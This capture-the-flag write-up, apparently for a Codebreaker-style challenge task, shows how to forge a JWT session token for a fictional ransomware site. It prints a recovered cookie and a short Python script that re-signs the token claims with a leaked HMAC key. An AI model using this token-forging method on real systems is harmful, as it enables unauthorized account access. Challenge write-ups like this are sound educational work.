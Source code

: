 # Task 6

## Description

We've found the login page on the ransomware site, but we don't know anyone's username or password. Luckily, the file you recovered from the attacker's computer looks like it could be helpful.

Generate a new token value which will allow you to access the ransomware site.

## Solution

The file from task 5 contained the details for a cookie which is used on the `ransommethis.net` website. This cookie named `tok` is assumed to be used for authenticating the users for the website.

```
# Netscape HTTP Cookie File
jbjlxkyofmpcxooy.ransommethis.net	FALSE	/	TRUE	2145916800	tok	eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2NTQ4Mzg3MDMsImV4cCI6MTY1NzQzMDcwMywic2VjIjoiV1JlQXNabkM4YXRFRUxkQVBwY0lzMHlIQ0x6cVBpMWEiLCJ1aWQiOjI2NTY3fQ.Qn5LtF2XCtKOPLkGzPfrLG7WTMFwvnNihI_yzIJDAYk 
```

The provided token is a JSON Web Token Containing two time stamps for creation and expiration as well as the `uid` and `sec` which are used for authenticating the user.

![](./img/jwt.png)

The flask source code shows that the token is using a signing key which needs to be used when forging a token. Additionally it shows that if the signature is valid then SQLite3 is used to verify the `uid` and `sec`.

![](./img/sessionlogic.png)

Using all of the information gathered from JWT and the source code, I wrote a simple python script to generate a fresh token that has not yet expired.

```python
import jwt
from datetime import datetime, timedelta

hmac = 'hionYjaULMZE4sZnrWj4nzkEjmDUAdsb'
now = datetime.now()
exp = now + timedelta(days=30)

claims = {
    'iat': int(now.timestamp()),
    'exp': int(exp.timestamp()),
    'uid': 26567,
    'sec': 'WReAsZnC8atEELdAPpcIs0yHCLzqPi1a'
}

tok = jwt.encode(claims, hmac, algorithm='HS256')

print(tok)
```

After generating the token and adding it to the current session, access is granted.

![](./img/homepage.png)
